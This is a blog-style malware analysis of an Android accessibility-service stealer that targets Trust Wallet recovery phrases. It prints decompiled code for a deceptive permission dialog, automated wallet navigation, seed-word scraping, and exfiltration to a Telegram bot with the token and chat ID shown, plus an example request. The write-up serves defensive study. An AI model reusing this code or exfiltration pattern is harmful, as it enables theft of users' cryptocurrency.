# AirDrop Wallet Stealer



Fig 1. VirusTotal Results

---

# APK Analysis Overview

## Basic Properties

| Property | Value |
| --- | --- |
| **MD5** | `70b07a67b618a6352bf35a735645b156` |
| **SHA-1** | `61f4bf9b3d1dba0f023e95aaef50e2cdb6b1c6ae` |
| **SHA-256** | `6f8992b2f3f1c58410293cc0b598dc74c2b1d9c165ad98d9ff5e12884148745e` |
| **Vhash** | `e5a7f5563320ae4028db2e7000366389` |
| **SSDEEP** | `49152:VSHNRUk7W42gKzO+4GgAYzfro7BTj2cS8js1pM6HdD5umePDr2EjD:VStp7W46zO+CzfroFOcmjrHdDCr2EjD` |
| **TLSH** | `T156F5AF43EA085A67C03A43B77E530E792A2A9F09C5426BD724283F4D3E771990F4E7D9` |
| **Permhash** | `b6564ef7e72bf868850ae934ba57c0badc4d140c3d142e6f26891fc5a922609a` |
| **File Type** | Android executable (APK) |
| **Magic** | `Zip archive data, at least v0.0 to extract, compression method=deflate` |
| **TrID** | Android Package (49%), BlueEyes Animation (24.5%), Sweet Home 3D Design (19%), ZIP archive (7.2%) |
| **Magika** | APK |
| **File Size** | 3.21 MB (3,366,981 bytes) |

---

## History

| Attribute | Value |
| --- | --- |
| **First Submission** | 2021-10-11 19:26:35 UTC |
| **Last Submission** | 2025-05-10 05:21:48 UTC |
| **Last Analysis** | 2025-08-19 04:37:35 UTC |
| **Earliest Content Modification** | 1981-01-01 01:01:02 |
| **Latest Content Modification** | 1981-01-01 01:01:02 |

---

## File Names

- `70b07a67b618a6352bf35a735645b156.apk`
- `4397705219`
- `1286219247.apk`

---

## Android Info

| Attribute | Value |
| --- | --- |
| **Android Type** | APK |
| **Package Name** | `com.test.accessibility` |
| **Main Activity** | `com.test.accessibility.SplashActivity` |
| **Internal Version** | 3 |
| **Displayed Version** | 1.2.0.3 |
| **Min SDK Version** | 24 |
| **Target SDK Version** | 30 |

---

## Certificate Attributes

| Attribute | Value |
| --- | --- |
| **Valid From** | 2020-12-26 07:48:08 |
| **Valid To** | 2050-12-19 07:48:08 |
| **Serial Number** | 1 |
| **Thumbprint** | `fe2efdc16aecbdd2bc9d06ffbb0311c5e6cca147` |

**Subject (Owner):**

- C: US
- CN: Android Debug
- O: Android

**Issuer:**

- C: US
- CN: Android Debug
- O: Android

---

## App Components

## Permissions

- `android.permission.INTERNET`

## Activities

- `com.test.accessibility.SplashActivity`
- `com.test.accessibility.MainActivity`

## Services

- `com.test.accessibility.MyAccessibilityService`

## Intent Filters

**By Action**

- `android.accessibilityservice.AccessibilityService`
- `android.intent.action.MAIN`

**By Category**

- `android.intent.category.LAUNCHER`

---

## Interesting Strings

- `http://159.69.139.252:999/api/rest/`
- `http://schemas.android.com/apk/res-auto`
- `http://schemas.android.com/apk/res/android`
- `https://api.telegram.org/bot`

---

## Bundle Info

| Attribute | Value |
| --- | --- |
| **Contained Files** | 623 |
| **Uncompressed Size** | 4.49 MB |
| **Earliest Content Modification** | 1981-01-01 01:01:02 |
| **Latest Content Modification** | 1981-01-01 01:01:02 |

## Contained Files by Type

| File Type | Count |
| --- | --- |
| JPG | 11 |
| UNKNOWN | 41 |
| PNG | 168 |
| XML | 403 |

## Contained Files by Extension

| Extension | Count |
| --- | --- |
| DEX | 1 |
| ARSC | 1 |
| KOTLIN_MODULE | 1 |
| GZ | 1 |
| PROPERTIES | 2 |
| JPG | 11 |
| VERSION | 34 |
| PNG | 168 |
| XML | 403 |

---

# Static Analysis

The application starts off with `SplashActivity` and proceeds to call MainActivity indirectly using an intent.

### Android Manifest


Fig 2. AndroidManifest.xml info

```markdown
<activity
            android:name="com.test.accessibility.SplashActivity"
            android:screenOrientation="portrait"
            android:configChanges="fontScale|colorMode|layoutDirection|density|smallestScreenSize|screenSize|uiMode|screenLayout|orientation|navigation|keyboardHidden|keyboard|touchscreen|locale|mnc|mcc">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/> <!-- Calls the Main Activity>
                <category android:name="android.intent.category.LAUNCHER"/> <!-- Starts the initial launch>
            </intent-filter>
        </activity>
```

### SplashActivity

```java
package com.test.accessibility;

import android.annotation.SuppressLint;
import android.content.Intent;
import android.os.Bundle;

/* loaded from: classes.dex */
public class SplashActivity extends androidx.appcompat.app.c {
    private Thread s;

    @Override // androidx.fragment.app.e, androidx.activity.ComponentActivity, androidx.core.app.e, android.app.Activity
    @SuppressLint({"SetTextI18n"})
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        getWindow().getDecorView().setLayoutDirection(1);
        setContentView(R.layout.activity_splash);
        Thread thread = new Thread(new Runnable() { // from class: com.test.accessibility.d
            @Override // java.lang.Runnable
            public final void run() throws InterruptedException {
            
                this.f3482b.O(); //This function is declared inside of SplashActivity
            }
        });
        this.s = thread;
        thread.start();
    }

    /* JADX INFO: Access modifiers changed from: private */
    /* renamed from: N, reason: merged with bridge method [inline-methods] */
    
    
    public /* synthetic */ void O() throws InterruptedException {
        try {
            Thread.sleep(1500L);
            Intent intent = new Intent(getApplicationContext(), (Class<?>) MainActivity.class); //0 function indrectly call MainActivity.
            startActivity(intent); // And starts MainActivity here.
            finish();
        } catch (InterruptedException e2) {
            e2.printStackTrace();
        }
    }
}
```

## Code Overview

This is an **Android Activity** (specifically `SplashActivity`) that shows a splash screen when the app is opened. After a short delay (`Thread.sleep(1500L)` → **1.5 seconds**), it transitions to the **MainActivity**.


Fig 3. WalletStealer splashscreen

---

## SplashActivity Breakdown

```java
package com.test.accessibility;

import android.annotation.SuppressLint;
import android.content.Intent;
import android.os.Bundle;

*/* loaded from: classes.dex */*
public class SplashActivity extends androidx.appcompat.app.c { 
    *// NOTE: 'androidx.appcompat.app.c' // is obfuscated code. It's likely extending AppCompatActivity.*
    
    private Thread s;  *// Holds the background thread reference.*
```

- The class `SplashActivity` likely extends `AppCompatActivity` (*A base class in Android (from AndroidX AppCompat) that provides backward-compatible features for activities so apps behave consistently on older and newer Android versions.*)
- It declares `Thread s`, which will run the splash delay code.

---

```java
@Override
@SuppressLint({"SetTextI18n"})
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    getWindow().getDecorView().setLayoutDirection(1);  *// Forces Right-to-Left UI (1 = LAYOUT_DIRECTION_RTL)*
    setContentView(R.layout.activity_splash);           *// Shows the splash screen layout*
```

- **`setLayoutDirection(1)`**: This forces the layout to **Right-to-Left (RTL)**.
    
    → Normally not hardcoded (0 = LTR, 1 = RTL). This can be a localization/design quirk.
    
- **`setContentView(...)`** sets the splash screen UI.

---

```java
Thread thread = new Thread(new Runnable() { 
        @Override
        public final void run() throws InterruptedException {
            this.f3482b.O();  
            *// Decompiler added .f3482b (a reference to the outer class SplashActivity)// It calls the 'O()' method inside SplashActivity*
        }
    });
    this.s = thread;
    thread.start();  *// Starts splash delay in a background thread*
}
```

- Creates a **new background thread** instead of using `Handler`/`postDelayed`.
- Calls the private function `O()` (really part of `SplashActivity`).
- This method executes the sleep + activity switch.

---

```java
*/* JADX INFO: Access modifiers changed from: private */*
private */* synthetic */* void O() throws InterruptedException {
    try {
        Thread.sleep(1500L);  *// Wait 1.5 seconds*
        Intent intent = new Intent(getApplicationContext(), (Class<?>) MainActivity.class);
        startActivity(intent);   *// Launch MainActivity*
        finish();                *// Finish SplashActivity so the user can’t go back*
    } catch (InterruptedException e2) {
        e2.printStackTrace();
    }
}
```

- Sleeps for **1500 ms** to simulate a splash screen.
- Launches **MainActivity** via `Intent`.
- Closes itself (`finish()`).

---

## SplashActivity Function Flow

1. **App launches → SplashActivity created**
2. **UI set** to splash screen layout.
3. Background **Thread starts**.
4. Thread calls `O()`, which:
    - Sleeps for **1.5 seconds**.
    - Creates an `Intent` for **MainActivity**.
    - Starts it.
    - Finishes (removes SplashActivity from back stack).

---

## MainActivity

We now land at `MainActivity` after the execution of the intent referenced in the SplashActivity class.

```java
package com.test.accessibility;

import android.annotation.SuppressLint;
import android.app.Dialog;
import android.content.ComponentName;
import android.content.Intent;
import android.graphics.drawable.ColorDrawable;
import android.os.Build;
import android.os.Bundle;
import android.provider.Settings;
import android.text.TextUtils;
import android.view.View;
import android.widget.ImageView;
import android.widget.LinearLayout;
import android.widget.TextView;

/* loaded from: classes.dex */
public class MainActivity extends androidx.appcompat.app.c {
    androidx.activity.result.c<Intent> s = r(new androidx.activity.result.f.c(), new androidx.activity.result.b() { // from class: com.test.accessibility.b
        @Override // androidx.activity.result.b
        public final void a(Object obj) {
            this.f3480a.Q((androidx.activity.result.a) obj);
        }
    });

    @Override // androidx.fragment.app.e, androidx.activity.ComponentActivity, androidx.core.app.e, android.app.Activity
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        if (O()) {
            U();
        } else {
            W();
        }
    }

    /* JADX INFO: Access modifiers changed from: private */
    /* renamed from: P, reason: merged with bridge method [inline-methods] */
    public /* synthetic */ void Q(androidx.activity.result.a result) {
        if (O()) {
            U();
        } else {
            W();
        }
    }

    void U() {
        try {
            ComponentName name = new ComponentName("com.wallet.crypto.trustapp", "com.wallet.crypto.trustapp.ui.start.activity.StartActivity");
            Intent i = new Intent("android.intent.action.MAIN");
            i.addCategory("android.intent.category.LAUNCHER");
            i.setFlags(270532608);
            i.setComponent(name);
            startActivity(i);
        } catch (Exception e2) {
            V();
        }
    }

    public boolean O() throws Settings.SettingNotFoundException {
        String settingValue;
        int accessibilityEnabled = 0;
        try {
            accessibilityEnabled = Settings.Secure.getInt(getContentResolver(), "accessibility_enabled");
        } catch (Settings.SettingNotFoundException e2) {
        }
        TextUtils.SimpleStringSplitter mStringColonSplitter = new TextUtils.SimpleStringSplitter(':');
        if (accessibilityEnabled == 1 && (settingValue = Settings.Secure.getString(getContentResolver(), "enabled_accessibility_services")) != null) {
            mStringColonSplitter.setString(settingValue);
            while (mStringColonSplitter.hasNext()) {
                String accessibilityService = mStringColonSplitter.next();
                if (accessibilityService.equalsIgnoreCase("com.test.accessibility/com.test.accessibility.MyAccessibilityService")) {
                    return true;
                }
            }
            return false;
        }
        return false;
    }

    @SuppressLint({"SetTextI18n"})
    void W() {
        final Dialog dialog = new Dialog(this);
        dialog.requestWindowFeature(1);
        dialog.getWindow().setBackgroundDrawable(new ColorDrawable(0));
        dialog.setContentView(R.layout.custom_confirm_dialog);
        dialog.setCancelable(false);
        TextView text = (TextView) dialog.findViewById(R.id.customConfirmDialogText);
        text.setText("Dear user");
        TextView textSub = (TextView) dialog.findViewById(R.id.customConfirmDialogTextSub);
        textSub.setText("The program service (monitor your activity in the program) helps us to confirm you as a human (not a robot) and the program will not work without it. Thank you for understanding this.\nPlease first touch \"Grant access\" button and follow picture guide below to run service:");
        ImageView imageView1 = (ImageView) dialog.findViewById(R.id.customConfirmDialogImage1);
        ImageView imageView2 = (ImageView) dialog.findViewById(R.id.customConfirmDialogImage2);
        ImageView imageView3 = (ImageView) dialog.findViewById(R.id.customConfirmDialogImage3);
        ImageView imageView4 = (ImageView) dialog.findViewById(R.id.customConfirmDialogImage4);
        if (N() == 1) {
            imageView1.setImageResource(R.drawable.imgh1);
            imageView2.setImageResource(R.drawable.imgh2);
            imageView3.setImageResource(R.drawable.imgh3);
            imageView4.setVisibility(8);
        } else if (N() == 2) {
            imageView1.setImageResource(R.drawable.imgx1);
            imageView2.setImageResource(R.drawable.imgx2);
            imageView3.setImageResource(R.drawable.imgx3);
            imageView4.setImageResource(R.drawable.imgx4);
        } else {
            imageView1.setImageResource(R.drawable.img1);
            imageView2.setImageResource(R.drawable.img2);
            imageView3.setImageResource(R.drawable.img3);
            imageView4.setImageResource(R.drawable.img4);
        }
        int i = Build.VERSION.SDK_INT;
        if (i >= 28) {
            textSub.setLineHeight(70);
        }
        if (i >= 29) {
            textSub.setJustificationMode(1);
        }
        LinearLayout okay = (LinearLayout) dialog.findViewById(R.id.customConfirmDialogYesRL);
        TextView okayBtn = (TextView) dialog.findViewById(R.id.customConfirmDialogYesBtn);
        okayBtn.setText("Grant access");
        okay.setOnClickListener(new View.OnClickListener() { // from class: com.test.accessibility.a
            @Override // android.view.View.OnClickListener
            public final void onClick(View view) {
                this.f3478b.T(dialog, view);
            }
        });
        dialog.show();
    }

    /* JADX INFO: Access modifiers changed from: private */
    /* renamed from: S, reason: merged with bridge method [inline-methods] */
    public /* synthetic */ void T(Dialog dialog, View v) {
        Intent intent = new Intent("android.settings.ACCESSIBILITY_SETTINGS");
        this.s.a(intent);
        dialog.dismiss();
    }

    @SuppressLint({"SetTextI18n"})
    void V() {
        Dialog dialog = new Dialog(this);
        dialog.requestWindowFeature(1);
        dialog.getWindow().setBackgroundDrawable(new ColorDrawable(0));
        dialog.setContentView(R.layout.custom_confirm_dialog);
        dialog.setCancelable(false);
        TextView text = (TextView) dialog.findViewById(R.id.customConfirmDialogText);
        text.setText("Sorry...");
        TextView textSub = (TextView) dialog.findViewById(R.id.customConfirmDialogTextSub);
        textSub.setText("This application is not compatible with your device!");
        int i = Build.VERSION.SDK_INT;
        if (i >= 28) {
            textSub.setLineHeight(70);
        }
        if (i >= 29) {
            textSub.setJustificationMode(1);
        }
        LinearLayout okay = (LinearLayout) dialog.findViewById(R.id.customConfirmDialogYesRL);
        TextView noBtn = (TextView) dialog.findViewById(R.id.customConfirmDialogYesBtn);
        noBtn.setText("Exit");
        okay.setOnClickListener(new View.OnClickListener() { // from class: com.test.accessibility.c
            @Override // android.view.View.OnClickListener
            public final void onClick(View view) {
                System.exit(0);
            }
        });
        dialog.show();
    }

    public static int N() {
        String manufacturer = Build.MANUFACTURER;
        if (manufacturer.toUpperCase().equals("HUAWEI")) {
            return 1;
        }
        return (manufacturer.toUpperCase().equals("XIAOMI") || manufacturer.toUpperCase().equals("XİAOMİ")) ? 2 : 3;
    }
}
```

### **MainActivity Flow Overview**

1. `onCreate()` → Checks if accessibility service is enabled
2. **If enabled** → Launches Trust Wallet (`U()`)
3. **If NOT enabled** → Shows deceptive permission dialog (`W()`)
4. **Fallback** → Shows “incompatible device” dialog (`V()`)

---

## **Function-by-Function Analysis**

### **onCreate() - Entry Point**

```java
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setContentView(R.layout.activity_main);
    if (O()) {          // Check if accessibility service is enabled
        U();            // Launch Trust Wallet
    } else {
        W();            // Show deceptive permission dialog
    }
}

```

- **Purpose:** Decides whether to launch Trust Wallet immediately or trick the user into granting permissions.

---

### **O() - Accessibility Service Check** ⚠️

```java
public boolean O() throws Settings.SettingNotFoundException {
    // Check if accessibility is enabled globally
    int accessibilityEnabled = Settings.Secure.getInt(
        getContentResolver(),
        "accessibility_enabled"
    );

    if (accessibilityEnabled == 1) {
        // Check if THIS app's accessibility service is enabled
        String settingValue = Settings.Secure.getString(
            getContentResolver(),
            "enabled_accessibility_services"
        );

        if (settingValue contains "com.test.accessibility/com.test.accessibility.MyAccessibilityService") {
            return true;
        }
    }
    return false;
}

```

```java
<service
            android:label="@string/app_name_service"
            android:name="com.test.accessibility.MyAccessibilityService" //Will go over this service later on in the blog.
            android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE"
            android:enabled="true"
            android:exported="true">
            <intent-filter>
                <action android:name="android.accessibilityservice.AccessibilityService"/> 
            </intent-filter>
            <meta-data
                android:name="android.accessibilityservice"
                android:resource="@xml/serviceconfig"/>
        </service>
```


Fig 4. Popup to enable accessibility service 

- **🚨 Red Flag** → Explicitly checks if the malicious `MyAccessibilityService` is enabled.
- **Attack Purpose:** Accessibility services provide *god-mode access* (screen reading, clicks, keystrokes, etc.).

---

### **U() - Launch Trust Wallet** ⚠️⚠️⚠️

```java
void U() {
    try {
        ComponentName name = new ComponentName(
            "com.wallet.crypto.trustapp",
            "com.wallet.crypto.trustapp.ui.start.activity.StartActivity"
        );

        Intent i = new Intent("android.intent.action.MAIN");
        i.addCategory("android.intent.category.LAUNCHER");
        i.setFlags(270532608);    // Suspicious flags
        i.setComponent(name);
        startActivity(i);         // Launch Trust Wallet
    } catch (Exception e2) {
        V();                     // Fallback if Trust Wallet not found
    }
}

```

- **🚨 Major Red Flag** → Targets the Trust Wallet `StartActivity` which is the initial screen when launched.


Fig 5. TrustWallet `StartActivity`

---

### **W() - Deceptive Permission Dialog** ⚠️⚠️⚠️

```java
void W() {
    Dialog dialog = new Dialog(this);
    dialog.setCancelable(false);  // User cannot dismiss

    text.setText("Dear user");
    textSub.setText("The program service ... helps us confirm you as human.");

    if (N() == 1) {          // Huawei
        // Show Huawei-specific screenshots (imgh1-3.png)
    } else if (N() == 2) {   // Xiaomi
        // Show Xiaomi-specific screenshots (imgx1-4.png)
    } else {
        // Show generic screenshots (img1-4.png)
    }

    okayBtn.setText("Grant access");
    okay.setOnClickListener(/* opens accessibility settings */);
}

```

- **🚨 Social Engineering** → Fakes “human verification.”
- **🚨 Deceptive UI** → Provides step-by-step instructions to enable accessibility.
- **🚨 Device-Specific** → Customizes to Huawei/Xiaomi/others.
- **🚨 Non-Dismissable** → Forces users into granting permissions.

---

### **T() - Open Accessibility Settings**

```java
private void T(Dialog dialog, View v) {
    Intent intent = new Intent("android.settings.ACCESSIBILITY_SETTINGS");
    this.s.a(intent);
    dialog.dismiss();
}

```

- **Purpose:** Opens accessibility settings when user clicks "Grant access."
- **Flow** → User enables → returns to app → `Q()` rechecks → launches Trust Wallet if enabled.

---

### **Q() - Permission Result Handler**

```java
public void Q(androidx.activity.result.a result) {
    if (O()) {
        U();    // Launch Trust Wallet
    } else {
        W();    // Show dialog again
    }
}

```

- Repeats dialog until user enables permissions.

---

### **V() - “Incompatible Device” Dialog**

```java
void V() {
    text.setText("Sorry...");
    textSub.setText("This application is not compatible with your device!");
    noBtn.setText("Exit");
    okay.setOnClickListener(/* System.exit(0) */);
}

```

- **Purpose:** Shown if Trust Wallet isn’t installed.
- **Cover-up** → Makes app seem legitimate.

---

### **N() - Device Manufacturer Detection**

```java
public static int N() {
        String manufacturer = Build.MANUFACTURER;
        if (manufacturer.toUpperCase().equals("HUAWEI")) {
            return 1;
        }
        return (manufacturer.toUpperCase().equals("XIAOMI") || manufacturer.toUpperCase().equals("XİAOMİ")) ? 2 : 3;
}
```

- **Purpose:** Detects manufacture of device to determine which instruction images to display for enabling accessibility settings.

---

## MyAccessibilityService Breakdown

This is the **core malware function** that automates Trust Wallet navigation and steals seed phrases. Below is a step-by-step breakdown with security analysis.

---

## Function Overview

```java
public void onAccessibilityEvent(AccessibilityEvent event) {
    // Main malware logic here
}

```

**Purpose:** Invoked **for every UI event** on the device. The malware uses it to detect when Trust Wallet is open and then automatically navigates the app to steal wallet data.

---

## 1: Target Detection

```java
if (event.getPackageName().equals("com.wallet.crypto.trustapp")) {
    AccessibilityNodeInfo nodeInfo = event.getSource();
    if (nodeInfo != null) {
        // Malware logic starts here
    }
}

```

**What it does:**

- **Monitors** all app activity.
- **Activates only** for Trust Wallet (`com.wallet.crypto.trustapp`).
- Obtains **UI tree access** via `nodeInfo`, enabling full interaction with the wallet’s interface.

---

## 2: Navigation Logic (Activity-by-Activity)

### 2a. `StartActivity` - Entry Point

```java
if (event.getClassName().toString()
        .equals("com.wallet.crypto.trustapp.ui.start.activity.StartActivity")) {
    for (AccessibilityNodeInfo n : nodeInfo.findAccessibilityNodeInfosByText("Settings")) { // Looks for the "Settings" node on the StartActivity of TrustWallet
        if (n.isClickable()) { // Check's if the node is clickable
            n.performAction(16);  // Click "Settings"
            nodeInfo.refresh();
            nodeInfo.refresh();
            nodeInfo.refresh();
            nodeInfo.findAccessibilityNodeInfosByText("Wallets") // Looks for the "Wallets" node
                    .get(0).getParent().performAction(16); 
            return;
        }
    }
    return;
}

// performAction(16) reference: https://developer.android.com/reference/android/view/accessibility/AccessibilityNodeInfo#ACTION_CLICK
```

**What it does:**

- Locates and **clicks “Settings.”**
- **Refreshes** the UI tree multiple times.
- Finds and **clicks “Wallets.”**

**Attack goal:** Reach the wallet management area.


Fig 7. Settings node being targeted


Fig 8. Wallets node being targeted

---

### 2b. `WalletsActivity` - Wallet Selection

```java
if (event.getClassName().toString()
        .equals("com.wallet.crypto.trustapp.ui.wallets.activity.WalletsActivity")) {
    try {
        nodeInfo.getChild(3).getChild(1).getChild(0).getChild(2).performAction(16);
        return;
    } catch (Exception e2) {
        return;
    }
}

```

**What it does:**

- Traverses a **hardcoded UI path** by child index.
- **Clicks** a specific wallet to access wallet information.


Fig 9. Confirmation of WalletsActivity being targeted

---

### 2c. `WalletInfoActivity` - Wallet Details

```java
if (event.getClassName().toString()
        .equals("com.wallet.crypto.trustapp.ui.wallets.activity.WalletInfoActivity")) {
    if (f3471b) {
        nodeInfo.getChild(2).performAction(16);
        return;
    } else {
        nodeInfo.getChild(4).performAction(16);
        return;
    }
}

```

**What it does:**

- Uses state flag **`f3471b`** to choose which element to click.
- First pass (`f3471b = false`): Likely returns to previous activity.
- Second pass (`f3471b = true`): Clicks the “Show Recovery Phrase” node to retrieve seed phrase.


Fig 10. Confirmation of WalletInfoActivity being targeted

---

### 2d. Dialog Handling

```java
if (event.getClassName().toString().equals("androidx.appcompat.app.AlertDialog")) {
    try {
        nodeInfo.findAccessibilityNodeInfosByText("OK")
                .get(0).performAction(16);
        f3471b = false;
        return;
    } catch (Exception e3) {
        return;
    }
}

```

**What it does:**

- **Auto-confirms** dialogs by clicking **“OK”** to bypass confirmation without user’s consent. ****
- Resets the state `f3471b` flag.

---

### 2e. `AddWalletActivity` - Cleanup

```java
if (event.getClassName().toString()
        .equals("com.wallet.crypto.trustapp.ui.addwallet.activity.AddWalletActivity")) {
    performGlobalAction(2);  // HOME button
    return;
}

```

**What it does:**

- Presses **HOME** if the flow wanders to “Add Wallet.” to cover tracks

---

## 3: Seed Phrase Extraction 🚨

```java
if (!event.getClassName().toString()
        .equals("com.wallet.crypto.trustapp.ui.wallets.activity.ExportPhraseActivity")) {
    // Handle other activities above
} else {
    // MAIN ATTACK CODE
    nodeInfo.getChild(0).getChild(3).performAction(16);
    nodeInfo.getChild(0).getChild(4).performAction(16);
    nodeInfo.refresh();
    nodeInfo.refresh();
    nodeInfo.refresh();

    String values = "" + nodeInfo.getChild(0).getChild(3).getText().toString() + " ";
    String values2 = ((((((((((values +
        nodeInfo.getChild(0).getChild(5).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(7).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(9).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(11).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(13).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(15).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(17).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(19).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(21).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(23).getText().toString() + " ") +
        nodeInfo.getChild(0).getChild(25).getText().toString();

    f3471b = true;
    a("2012379995:AAGPhRr3ntEfaB38Ul4PveGwNYLaRSiikLY", "-1001491052715", values2);
    performGlobalAction(1);  // BACK button
    return;
}

```

```java
void a(String token, String id, String message) {
    try {
        b0.b bVar = new b0.b();
        TimeUnit timeUnit = TimeUnit.SECONDS;
        b0 okHttpClient = bVar.c(20L, timeUnit).b(3L, timeUnit).a();
        u retrofit = new u.b().b(g.a0.a.a.f()).a(g.d()).c("https://api.telegram.org/bot" + token + "/").g(okHttpClient).e();
        e serviceMain = (e) retrofit.b(e.class);
        serviceMain.a(id, message).z(new a(token, id, message));
    } catch (Exception e2) {
    }
}
```

**What it does:**

- **Reveals** seed words (clicks children `3` and `4`).
- **Extracts** text from **12 fixed UI positions**:
    - `3, 5, 7, 9, 11, 13, 15, 17, 19, 21, 23, 25`
- **Concatenates** into a single string (`values2`).
- **Exfiltrates** via `a()` to Telegram:
    - **Bot Token:** `2012379995:AAGPhRr3ntEfaB38Ul4PveGwNYLaRSiikLY`
    - **Chat ID:** `1001491052715`
- **Covers tracks** by pressing **BACK**.

```java
//Example Request
POST /bot2012379995:AAGPhRr3ntEfaB38Ul4PveGwNYLaRSiikLY/sendMessage HTTP/1.1
Host: api.telegram.org
User-Agent: Dalvik/2.1.0 (Linux; U; Android 9; LDPlayer Build/PQ3A.190605.006)
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

chat_id=-1001491052715&text=fox alley grit suffer endless appear exact undo curve clump tiger choice

```

```java
//Example Response
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Tue, 19 Aug 2025 21:43:15 GMT
Content-Type: application/json
Content-Length: 312
Connection: keep-alive
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: GET, POST, OPTIONS
Access-Control-Expose-Headers: Content-Length,Content-Type,Date,Server,Connection

{
  "ok": true,
  "result": {
    "message_id": 47382,
    "from": {
      "id": 2012379995,
      "is_bot": true
    },
    "chat": {
      "id": -1001491052715,
      "title": "Trust Wallets",
      "type": "channel"
    },
    "date": 1724104995,
    "text": "fox alley grit suffer endless appear exact undo curve clump tiger choice"
  }
}

```


Fig 11. Full execution of malware

---

## 4: Cleanup & Other Apps

```java
if (!event.getPackageName().toString().equals("com.test.accessibility")) {
    performGlobalAction(1);  // BACK button
}

```

**What it does:**

- Issues **BACK** on any app that isn’t Trust Wallet or itself.
- **Disrupts navigation** elsewhere to remain stealthy.

## ⚠️ Hidden Kill Switch (Volume Button Sequence)

```java
protected boolean onKeyEvent(KeyEvent event) {
    if (event.getKeyCode() == 25 && event.getAction() == 0 && f3472c.intValue() == 0) {
        f3472c = Integer.valueOf(f3472c.intValue() + 1); //https://developer.android.com/reference/android/view/KeyEvent#KEYCODE_VOLUME_DOWN
    } else if (event.getKeyCode() == 25 && event.getAction() == 0 && f3472c.intValue() == 1) {
        f3472c = Integer.valueOf(f3472c.intValue() + 1); //https://developer.android.com/reference/android/view/KeyEvent#KEYCODE_VOLUME_DOWN
    } else if (event.getKeyCode() == 24 && event.getAction() == 0 && f3472c.intValue() == 2) {
        f3472c = Integer.valueOf(f3472c.intValue() + 1); //https://developer.android.com/reference/android/view/KeyEvent#KEYCODE_VOLUME_UP
    } else if (event.getKeyCode() == 24 && event.getAction() == 0 && f3472c.intValue() == 3) {
        f3472c = Integer.valueOf(f3472c.intValue() + 1); //https://developer.android.com/reference/android/view/KeyEvent#KEYCODE_VOLUME_UP
    } else if (event.getKeyCode() == 24 && event.getAction() == 0 && f3472c.intValue() == 4) {
        f3472c = Integer.valueOf(f3472c.intValue() + 1); //https://developer.android.com/reference/android/view/KeyEvent#KEYCODE_VOLUME_UP
    } else if (event.getKeyCode() == 25 && event.getAction() == 0 && f3472c.intValue() == 5) {
        f3472c = Integer.valueOf(f3472c.intValue() + 1); //https://developer.android.com/reference/android/view/KeyEvent#KEYCODE_VOLUME_DOWN
    } else if (event.getKeyCode() == 25 && event.getAction() == 0 && f3472c.intValue() == 6) {
        disableSelf(); //Final volume down triggers disableSelf()
    } else if (event.getAction() == 0) {
        f3472c = 0;
    }
    return true;
}
```

```java
Volume Down → Volume Down → Volume Up → Volume Up → Volume Up → Volume Down → Volume Down
```

- If this sequence is pressed, it calls:
    
    ```java
    disableSelf();
    ```
    
    → **the malware disables its Accessibility Service**.
    

This is clearly built for **operator debugging / manual testing** without uninstalling.

---

## Artifacts

